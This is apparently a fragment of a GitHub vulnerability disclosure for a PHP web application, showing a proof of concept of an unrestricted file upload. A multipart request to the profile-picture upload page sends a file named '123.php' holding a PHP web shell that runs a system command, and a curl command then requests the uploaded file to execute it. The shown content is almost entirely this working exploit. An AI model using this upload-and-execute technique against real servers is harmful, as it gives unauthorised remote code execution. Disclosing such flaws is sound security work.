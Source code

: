 ```
Content-Type: multipart/form-data; boundary=---------------------------10405231092695549021896513402
Content-Length: 260
Origin: http://192.168.210.199:1218
Connection: close
Referer: http://192.168.210.199:1218/members/change_profile_picture_modal.php?id=65
Upgrade-Insecure-Requests: 1
Priority: u=1

-----------------------------10405231092695549021896513402
Content-Disposition: form-data; name="image"; filename="123.php"
Content-Type: application/octet-stream

<?php system("ipconfig"); ?>
-----------------------------10405231092695549021896513402--

```

<img width="911" alt="2" src="https://github.com/L1OudFd8cl09/CVE/assets/171104034/eb92aa97-10f1-4ada-9851-beb67667f8b5">


## I successfully executed the PHP script on the terminal
```bash 
 curl http://192.168.210.199:1218/uploads/123.php
```
<img width="314" alt="3" src="https://github.com/L1OudFd8cl09/CVE/assets/171104034/9afcfc43-dfd7-401c-b052-9bd5e7d8c75d">

